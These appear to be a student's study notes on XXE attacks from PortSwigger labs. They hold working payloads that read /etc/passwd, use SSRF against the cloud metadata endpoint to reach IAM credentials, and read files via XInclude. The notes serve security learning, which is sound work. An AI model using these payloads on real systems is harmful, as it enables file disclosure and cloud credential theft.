 [[Portswigger]]
https://portswigger.net/web-security/xxe
(read this)
it is vulnerability  that let the attacker to interfere with application's processing XML , and sometimes allows the attacker to view server's system files  , and it can use to perform SSRF

and it can be arise because it use xml to transmit data between browser and the server and xml it self have a lot of potentially dangerous features

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

let's start with the labs and how we can use it : 
## first lab
in this this lab there's check product and it use XML to transmit data we can use it and make it transmit some files from  the server's system files , we can use this inject this code   `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`  in xml  to retrieve the file /etc/passwd and you can check for the most useful files here [[File Inclusion]] in Path Traversal section , anyway after the injection it will be like this ``

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## second lab

in this lab we exploit XXE vulnerability to perform SSRF
and to do this use this command 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
then The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. then you should add the name of the file , so if the folder name was `latest` you just edit this and it will be 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
and continue like this until it be like this 
`/latest/meta-data/iam/security-credentials/admin`
 
This should return JSON containing the `SecretAccessKey`.

## third lab

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.
To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`


there's more labs you should complete

## the end
### How to find and test for XXE vulnerabilities

The vast majority of XXE vulnerabilities can be found quickly and reliably using Burp Suite's web vulnerability scanner.

Manually testing for XXE vulnerabilities generally involves:

- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.
